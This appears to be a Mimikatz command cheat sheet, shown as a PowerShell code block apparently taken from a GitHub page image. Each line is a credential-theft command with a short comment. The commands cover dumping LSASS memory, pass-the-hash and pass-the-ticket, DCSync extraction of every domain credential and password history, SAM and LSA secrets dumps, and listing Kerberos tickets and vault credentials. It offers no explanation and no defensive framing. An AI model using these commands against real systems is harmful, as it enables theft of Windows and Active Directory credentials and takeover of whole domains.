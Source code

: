 ```powershell
Import-Module Invoke-Mimikatz.ps1

# mimikatz
# Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

# (Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

# List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

# Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

# Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

# List cached MasterKeys
mimikatz sekurlsa::dpapi

# List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

# Dump SAM Database
mimikatz lsadump::sam

# Dump SECRETS Database
mimikatz lsadump::secrets

# Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

# Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

# Dump old passwords and NTLM hashes of a user
mimikatz lsadump::dcsync /user:<DomainFQDN>\<user> /history

# List and Dump local kerberos credentials
mimikatz kerberos::list /dump

# Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

# List TS/RDP sessions
mimikatz ts::sessions

# List Vault credentials
mimikatz vault::list 
```
